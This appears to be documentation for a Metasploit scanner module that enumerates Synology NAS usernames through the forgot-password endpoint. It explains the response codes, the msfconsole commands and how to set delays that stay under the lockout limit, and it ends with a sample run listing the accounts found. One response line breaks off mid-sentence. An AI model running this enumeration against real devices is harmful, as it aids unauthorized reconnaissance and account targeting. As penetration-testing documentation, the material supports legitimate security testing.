 ## Vulnerable Application

This module attempts to enumerate users on the Synology NAS by sending GET requests
for the forgot password URL. The Synology NAS will respond differently if a user is
present or not. These count as login attempts, and the default is 10 logins in 5min to
get a permanent block.  Set delay accordingly to avoid this, as default is permanent.

Enumeration is case insensitive.

To turn off Auto Block: Control Panel > Security > Auto Block.

To unblock: Control Panel > Security > Auto Block > Allow/Block List > Block List.

### Responses

The server responds with a JSON object and a 'msg' key.  The values translate as:

 * msg 1 - means user can login to GUI
 * msg 2 - means user exists but no GUI login
 * msg 4 - means no user
 * msg 5 - means auto block is enabled and youre blocked. Default is 10 login attempts, and these

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/http/synology_forget_passwd_user_enum```
  4. Do: ```set rhosts [ip]```
  5. Do: ```set delay [seconds]```
  6. You should hopefully find some usernames

## Options

### Delay

The delay in seconds between enumeration attempts.  Default lockout policy is 10 attempts in 5min,
so this should avoid the lockout.  Default is `31`.

### USER_LIST

The username list to use, defaults to `data/wordlists/unix_users.txt`

## Scenarios

### DS412+ with DSM 5.2-5644 with auto block turned off

  ```
  [*] Processing syn_login.rb for ERB directives.
  resource (syn_login.rb)> use auxiliary/scanner/http/synology_forget_passwd_user_enum
  resource (syn_login.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (syn_login.rb)> set delay 0
  delay => 0
  resource (syn_login.rb)> run
  [+] admin - admin group
  [+] avahi - no mail or no priviege
  [+] ftp - no mail or no priviege
  [+] guest - no mail or no priviege
  [+] lp - no mail or no priviege
  [+] mysql - no mail or no priviege
  [+] nobody - no mail or no priviege
  [+] ntp - no mail or no priviege
  [+] postfix - no mail or no priviege
  [+] postgres - no mail or no priviege
  [+] root - no mail or no priviege
  [+] ROOT - no mail or no priviege
  [+] http://2.2.2.2:5000/ - Users found: ROOT, admin, avahi, ftp, guest, lp, mysql, nobody, ntp, postfix, postgres, root
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```
